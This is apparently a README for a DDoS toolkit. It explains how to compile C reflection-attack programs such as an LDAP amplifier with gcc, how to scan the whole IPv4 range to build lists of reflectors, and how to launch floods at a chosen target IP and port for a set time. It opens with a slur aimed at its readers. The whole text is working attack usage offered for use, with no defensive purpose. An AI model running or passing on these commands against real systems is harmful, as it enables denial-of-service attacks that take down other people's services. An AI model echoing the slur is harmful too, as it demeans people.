 # For ddos retards
# Enjoy
# >Commands< 
gcc -o NAME NAME.C -pthread

EX - gcc -o ldap ldap.c -pthread
# >Scanning<
./name 1.1.1.1 255.255.255.255 name.txt 2 1ms

./ldapscan 1.1.1.1 255.255.255.255 ldap.txt 2 1ms

1.1.1.1 defines starting range; 255.255.255.255 defines end scan range; the name.txt is the reflection file you are scanning

the (2) is the amount of threads this process takes to run
# >Hit<

./name IP PORT name.txt 2 -1 TIME

EX ./ldap 1.1.1.1 80 ldap.txt 2 -1 500
# :) 
